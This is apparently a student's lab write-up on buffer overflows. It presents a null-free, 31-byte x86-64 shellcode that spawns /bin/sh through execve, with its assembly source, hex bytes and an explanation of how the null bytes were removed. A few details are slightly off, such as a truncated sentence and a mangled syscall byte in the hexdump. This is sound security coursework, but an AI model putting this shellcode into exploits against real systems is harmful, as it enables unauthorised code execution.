 # Control Flow Lab

The goal of this lab was to learn how to execute buffer overflowing on a test program that is prone to buffer overflowing to execute a piece of shellcode.

This shellcode will execute /bin/sh using exceve.

We learned how to use the PWN library to see the corefile of the  

## Program
```
// Shellcode lab
// Author: Long Tran
.globl _start
.section .text
_start:
    // zero out rax
    xor %rax, %rax
    // push to have array of zeroes on the stack
    pushq %rax
    // %rsi and %rdx - set these to the address leading to an empty array of pointers.
    // we don't need a pointer to an empty string
    movq %rsp, %rsi
    movq %rsp, %rdx
    
    // %rdi - path
    // "/bin/sh 0x2F62696E2F7368
    // needs to change to little endianess
    movq $0x68732F6E69622F3b, %rbx 
    // retrieve 0x3b, put it in lower 8-bit of rax
    mov %bl, %al

    // push the string
    pushq %rbx
    // copy the stack pointer
    movq %rsp, %rdi
    // increase it by one to get past 0x3b
    inc %rdi

    syscall
```
### Explanation

To set up for the system call, we basically need the following:

1. Put 0x3b into %rax
2. Push 8 bytes of 0x0 onto the stack. 
3. Store the address of the memory of the pushed 0 in %rsi (argv) and %rdx (env). This will lead to an empty array of pointers. 
4. Push the string "/bin/sh" onto the stack.
5. Store the address of the string in %rdi. 
6. Call the system call with `syscall`

However, to remove the zero byte and reduce the size. I made some changes. A detailed instruction can be seen through the comments of the assembly code. 

### Report

My shell code is 31 bytes long. Here they are:

    48 31 c0 50 48 89 e6 48 89 e2 48 bb 3b 2f 62 69 6e 2f 73 68 88 d8 53 48 89 e7 48 ff c7 f 5

### Explanation for NULL bytes        

As can be seen from the hexdump, there is no 0 bytes in the code.
I made sure that there are no NULL bytes by adding a check in the shellcode_tester.c and check if there is a 0 byte read. If there is a 0 byte read, then the program exits.

I realized through adding and removing instructions that the zero bytes only come from the intermediate numbers (e.g: $0x3b) to fill up the 8 bytes.

Thus, to eliminate NULL bytes, I did 2 things: 
1. I xor 2 registers to get a value 0 without having to write $0x0. 
2. I combined both the string "/bin/sh" and the code system call code 0x3b into one number to remove the buffered 0x0 byte from the string. To get the code, I only simply need to get the lower 8 byte from the register. I then pushed the entire number and to get the address of the string "/bin/sh" only, I incremented the stack pointer by one to get pass 0x3b. 

I realized the problem I had last time in class, it was because after the string, there were no 0 to end the string.